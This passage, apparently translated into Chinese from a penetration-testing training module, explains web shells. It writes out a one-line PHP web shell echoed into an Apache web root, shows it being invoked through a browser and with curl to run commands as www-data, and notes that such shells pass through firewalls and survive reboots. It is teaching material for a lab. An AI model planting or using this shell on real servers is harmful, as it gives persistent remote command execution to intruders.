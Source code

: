 我们可以检查这些目录来确定使用的Web根目录，然后使用`echo`将我们的Web shell写入。例如，如果我们攻击运行Apache的Linux主机，我们可以使用以下命令编写一个`PHP` shell：

代码：bash

```Plaintext
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

---

#### 访问Web shell

一旦我们编写了我们的Web shell，我们可以通过浏览器或使用`cURL`访问它。我们可以在被入侵的网站上访问`shell.php`页面，并使用`?cmd=id`来执行`id`命令：

http://SERVER_IP:PORT/shell.php?cmd=id

![](https://gwmah9jwtul.feishu.cn/space/api/box/stream/download/asynccode/?code=M2Q4MzMyZjg1ZjUzMTM5ODlhN2M1NTZhY2Y0ZTg0YWFfNWdPTjJjMHF3MHVzM09Wa0NOMlAzZW03SXhSRjRKWlpfVG9rZW46QXlmV2Iwalp4b2JHd2J4WnVTV2NOdnRDbnRmXzE2ODY0OTYxMzY6MTY4NjQ5OTczNl9WNA)

另一个选项是使用`cURL`：访问Web shell

```Plaintext
jw0610a@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

正如我们所看到的，我们可以不断更改命令以获取其输出。Web shell的一个很大的优点是，它可以绕过任何防火墙限制，因为它不会在一个端口上打开新连接，而是在Web端口上运行（如`80`或`443`），或者Web应用程序所使用的任何端口。另一个很大的优点是，如果被入侵的主机重新启动，Web shell仍将保留，我们可以访问它并在不再利用远程主机的情况下进行命令执行。

另一方面，Web shell不像反向和绑定shell那样交互，因为我们必须不断请求不同的

URL来执行我们的命令。不过，在极端情况下，我们可以编写一个`Python`脚本来自动化此过程，并在我们的终端中提供一个半交互式的Web shell。
